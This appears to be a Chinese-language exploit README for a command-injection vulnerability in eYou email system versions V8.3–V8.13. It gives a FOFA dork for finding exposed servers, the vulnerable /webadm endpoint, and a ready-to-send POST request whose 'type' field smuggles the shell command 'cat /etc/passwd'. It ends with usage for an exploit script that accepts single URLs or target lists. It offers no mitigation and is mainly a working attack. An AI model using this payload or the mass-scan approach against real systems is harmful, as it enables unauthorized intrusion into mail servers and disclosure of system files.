


# 影响范围：
亿邮电子邮件系统V8.3-V8.13
# FOFa dork：
body="亿邮电子邮件系统"
# 漏洞复现：
登录页面：
  
漏洞地址：/webadm/?q=moni_detail.do&action=gragh  
post包如下：  
```
POST /webadm/?q=moni_detail.do&action=gragh HTTP/1.1
Host: 192.168.1.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0

type='|cat /etc/passwd||'
```
  
脚本使用方法：  
python3 Eyou.py [-h] [-u] [-f]


